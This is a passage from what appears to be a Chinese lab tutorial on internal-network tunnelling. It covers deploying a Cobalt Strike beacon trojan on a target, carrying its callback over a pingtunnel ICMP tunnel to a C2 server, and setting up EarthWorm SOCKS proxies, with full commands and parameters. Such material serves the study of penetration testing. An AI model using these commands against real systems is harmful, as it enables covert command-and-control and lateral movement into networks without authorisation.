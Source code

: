 **生成后门**

使用监听器1 生成木马 `beacon_x86.exe`，将其复制到目标机

![image.png](https://img.ghostliner.top/FhHdta.png)

**开启隧道**

```shell
# cs-server
sudo ./pingtunnel -type server
# win
pingtunnel -type client -l 127.0.0.1:800 -s 192.168.22.128 -t 192.168.22.128:2222 -tcp 1 -noprint 1 -nolog 1
```

**运行木马**

上线成功

![image.png](https://img.ghostliner.top/6tuVrl.png)

### 2.4. EarthWorm SOCKS 代理

EarthWorm 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。目前已经永久停止更新了。

下载：[idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)

ew 有 6 种链路状态：ssocksd（正向代理）、rcsocks（反向代理客户端）、rssocks（反向代理服务端）、lcx_slave、lcx_tran、lcx_listen

**参数**

```shell
-s ssocksd|rcsocks|rssocks|lcx_slave|lcx_tran|lcx_listen
-d # 反向连接主机地址
-e # 反向连接主机端口
-f # 连接主机地址
-g # 连接端口
```

**正向 socks 代理**

```mermaid
graph LR
A["win-client<br>192.168.163.130"]-->B["kali-server<br>192.168.163.132<br>192.168.22.128"]
B-->C["win-web<br>192.168.22.129"]
```

win-web 使用 HFS 开启 HTTP 服务

![image.png](https://img.ghostliner.top/6n5oAu.png)

kali 开启 socks 代理

```shell
./ew -s ssocksd -l 3333
```

浏览器配置代理
